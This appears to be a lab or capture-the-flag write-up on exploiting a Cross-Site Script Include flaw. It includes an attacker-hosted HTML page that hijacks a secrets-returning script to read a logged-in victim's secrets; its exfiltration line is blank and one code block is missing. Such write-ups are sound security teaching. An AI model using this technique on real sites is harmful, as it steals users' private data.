



## Introduction

This lab was about exploiting a **Cross-Site Script Include (XSSI)** issue. The goal was simple: **steal another user's secret** without breaking authentication or exploiting the server directly.

At first glance, the app looked harmless. But once I understood how it exposed secrets through a JavaScript file, the attack path became very clear.

## Reconnaissance

I started by registering a normal user account and clicking around.

Pretty quickly, I noticed a feature called **"Add Secret"**. When I added a secret, it didn't just save it in the database, it was exposed through an external JavaScript file called something like:

```text
/secrets.js
```

When I opened that file in the browser, I saw something like:

```js
display({
  "alex": "alex"
});
```

So instead of returning JSON, the app was returning **executable JavaScript** that directly called a function named `display()`.

That immediately raised a red flag.



## Understanding the Client-Side Logic

Looking at the page source, I found the `display()` function:



So the flow was:

1. Page defines `display()`

2. Browser loads `/secrets.js`

3. `secrets.js` calls `display()` with sensitive data

4. Secrets get rendered in the DOM

I first tried injecting `<script>` tags into the secret value, but everything was HTML-encoded. No classic XSS.

At this point, I stopped thinking about injection and started thinking about **context**.

## Exploitation

The key realization was this:

> **Anyone can load `/secrets.js`, and it runs in whatever page defines `display()` first.**

Authentication was done via cookies. So if an authenticated user loads `secrets.js` from _any_ website, their browser will automatically include cookies.

That's the vulnerability.

So instead of attacking the target site, I created my own malicious page.

### Malicious Page

On my own server, I hosted a simple HTML file:

```html
<!DOCTYPE html>
<html>
<body>

<script>
function display(data) {
  for (var key in data) {
    document.write(
      ""
    );
  }
}
</script>

<script src="https://redacted/secrets.js"></script>

</body>
</html>

```

What this does:

- I redefine `display()` **before** loading `secrets.js`

- When `secrets.js` executes, it calls _my_ function

- Each secret value gets exfiltrated via an image request

No JavaScript injection. No bypass. Just abusing trust.

I sent this page to the admin.

A few seconds later, my server logs lit up.


